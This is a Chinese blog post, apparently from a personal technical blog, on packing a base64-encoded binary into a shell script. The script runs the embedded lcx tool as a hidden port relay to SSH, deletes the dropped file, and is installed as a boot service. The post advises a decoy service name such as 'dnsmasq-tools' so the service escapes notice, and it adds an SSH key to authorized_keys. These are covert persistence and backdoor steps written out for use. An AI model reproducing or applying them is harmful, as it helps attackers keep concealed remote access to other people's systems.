 ```yaml
---
title: shell中嵌入二进制文件
categories:
  - Linux
  - shell
toc: true
date: 2018-06-29 16:55:01
tags:
---
```

摘要暂略。
<!-- more -->

[在shell中嵌入二进制文件](http://oenhan.com/shell-pack-bin)。  
[在shell 脚本中嵌入二进制可执行程序](http://blog.chinaunix.net/uid-15084954-id-3368201.html)。  

先写一个名为`lcx_exe.sh`的shell脚本，脚本内容如下所示：
```shell
#!/bin/sh
# chkconfig: 12345 01 99
# 启动服务的运行级别是(1,2,3,4,5)关闭服务的顺序是(01)启动服务的顺序是(99)

PROGRAM="/tmp/lcx_exe"

do_start() {
    /bin/sed "1,/^__CONTENT_BELOW__/d" "$0" | /usr/bin/base64 -d > "$PROGRAM"
    /bin/chmod 777 "${PROGRAM}"
    "${PROGRAM}" -tran 20022 127.0.0.1:22 >/dev/null 2>&1 &
    /bin/ls >/dev/null 2>&1
    /bin/rm -f "${PROGRAM}"
}

do_stop() {
    for curPid in $( /sbin/pidof $(/bin/basename "$PROGRAM") ); do kill -9 $curPid; done
}

do_restart() {
    do_stop
    do_start
}

case "$1" in
    start)
        do_start
        ;;
    stop)
        do_stop
        ;;
    restart)
        do_restart
        ;;
    *)
        do_restart
        ;;
esac

exit 0

# This line must be the last line of the file
__CONTENT_BELOW__
```
然后我们将`lcx_exe`嵌入`lcx_exe.sh`文件中：
```
base64 ./lcx_exe >> ./lcx_exe.sh
yum install bzip2
tar -cjf  lcx_exe.sh.tar.bz2  lcx_exe.sh
```
然后我们将其添加到服务中并开启该服务。
```
cp  ./lcx_exe.sh  /etc/rc.d/init.d/.
chmod +x /etc/rc.d/init.d/lcx_exe.sh
chkconfig --add lcx_exe.sh
chkconfig lcx_exe.sh on
```
一些其他命令
```
chkconfig --list lcx_exe.sh
chkconfig lcx_exe.sh off
chkconfig --del lcx_exe.sh
service lcx_exe.sh start
service lcx_exe.sh restart
service lcx_exe.sh stop
```
当然也可以直接将其添加到`/etc/rc.d/rc.local`中。因为这个文件的使用率极高（比如Samba挂载共享文件夹），别人很容易发现这个命令。而添加服务时，我们可以使用一个具有迷惑性的名字（比如`dnsmasq-tools`或`dnsmasqd`或`dnsmosq`(`dnsmasq`)等），所以还不太容易被发现。  

创建私钥：
```
mkdir ~/.ssh
chmod 700 ~/.ssh
cd ~/.ssh/
ssh-keygen -f ~/.ssh/my_rsa
cat ~/.ssh/my_rsa.pub >> ~/.ssh/authorized_keys
chmod 644 ~/.ssh/authorized_keys
```
